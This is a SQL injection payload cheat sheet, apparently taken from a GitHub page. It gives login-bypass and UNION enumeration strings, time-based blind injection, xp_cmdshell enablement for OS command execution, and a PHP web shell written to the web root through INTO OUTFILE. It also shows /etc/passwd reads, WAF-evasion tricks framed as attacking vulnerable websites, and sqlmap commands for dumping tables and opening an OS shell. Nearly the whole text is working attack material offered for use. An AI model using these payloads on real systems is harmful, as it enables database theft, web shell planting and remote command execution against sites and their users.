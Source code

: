 # SQL

## payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

### Reading files with postgres SQL

```
create table tmp(data text); copy tmp from '/etc/passwd'; select * from tmp;
```

```
select pg_read("/etc/passwd");
```


### Reading files with MySQL

```
select @@GLOBAL.secure_file_priv;
```

```
select * from users INTO OUTFILE 'path_we_got_from_above_query/read.txt';
```

```
select LOAD_FILE('file_path');
```

---

### RCE via MSSQL

```
'EXECUTE sp_configure 'show advanced options', 1;--
'RECONFIGURE;--
'EXECUTE sp_configure 'xp_cmdshell', 1;--
'RECONFIGURE;--
```

```
' EXECUTE xp_cmdshell 'command';--
```

---
## WAF Bypass

```
⚪To bypass a web application firewall (WAF) in SQL 

1. Exploit SQL Injection: Identify websites that may be vulnerable to SQL injection. SQLMap is a powerful tool that can automate the process of exploiting SQL injection vulnerabilities. Install SQLMap and provide it with the website's URL and parameters to carry out the attack.

2. Evade WAF Detection: WAFs are designed to detect and block suspicious SQL injection attempts. To evade detection, you can employ various techniques such as:

   - Obfuscation: Modify the payload by encoding or encrypting it to bypass signature-based detection.

   - Time-based Techniques: Construct queries that exploit time delays to evade pattern matching and signature-based detection.

   - Use Hex Encoding: Encode the payloads in hexadecimal format to bypass payload filters.

⚫Here's an Crafted payload in python for an Example:
     - Base64 encoding:
payload_encoded = base64.b64encode(payload.encode('utf-8'))
     - URL encoding:
payload_encoded = urllib.parse.quote(payload)

   - Fragmentation: Split the payload into smaller fragments to avoid WAF detection. For instance:
     -
payload_fragmented = payload[:10] + "'" + payload[10:]

   - Character substitution: Replace characters in the payload with alternatives that may bypass the WAF. For example:
     -
payload_substituted = payload.replace("SELECT", "S*ELECT")


⚪ Uploaded By - @MADARA888UCHIHAA 🍀
```

## SQLMap

```
An advanced Guide for SQL Injection (SQLi) using SQLMap👩‍💻:

1. Enumerate Database Information:
   - Identify the number of databases on the target: sqlmap -u <URL> --dbs
   - List all database names: sqlmap -u <URL> --dbs --batch
   - Enumerate tables in a specific database: sqlmap -u <URL> -D <database_name> --tables

2. Extract Table Data:
   - Dump all data in a specific table: sqlmap -u <URL> -D <database_name> -T <table_name> --dump

3. Exploiting SQLi Vulnerabilities:
   - Test for SQLi vulnerability: sqlmap -u <URL> --level 5 --risk 3
   - Specify injection point manually: sqlmap -u "<URL>?parameter=value" --sql-shell
   - Use custom headers: sqlmap -u <URL> --headers="User-Agent: CustomAgent"

4. OS Command Execution:
   - Execute operating system commands: sqlmap -u <URL> --os-shell

5. Brute-Force Techniques:
   - Brute-force table names: sqlmap -u <URL> -D <database_name> --tables --technique T
   - Brute-force column names: sqlmap -u <URL> -D <database_name> -T <table_name> --columns --technique T

6. Time-Based Exploitation:
   - Perform a time-based blind SQLi attack: sqlmap -u <URL> --time-sec 10 --technique T

7. Other Useful Techniques:
   - Retrieve the current user: sqlmap -u <URL> --current-user
   - Retrieve the current database: sqlmap -u <URL> --current-db
   - Identify database management system (DBMS): sqlmap -u <URL> --dbms

Uploaded By - @MADARA888UCHIHAA ⭐
```

```
sqlmap -r req.txt --risk 3 --level 3 --dbs --tamper=space2comment,space2morehash
```
